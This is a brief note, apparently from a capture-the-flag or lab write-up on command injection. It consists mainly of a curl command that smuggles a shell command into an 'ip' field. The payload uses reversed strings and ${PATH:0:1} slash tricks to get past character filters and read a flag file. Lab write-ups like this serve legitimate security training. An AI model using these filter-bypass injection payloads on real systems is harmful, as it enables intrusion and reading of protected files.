#

`%0a` == SPACE char

```
curl -X POST "http://94.237.49.212:41131/" --data 'ip=;{$(rev<<<"tac"),${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}'
```

> Note that we are using <<< to avoid using a pipe |, which is a filtered character.

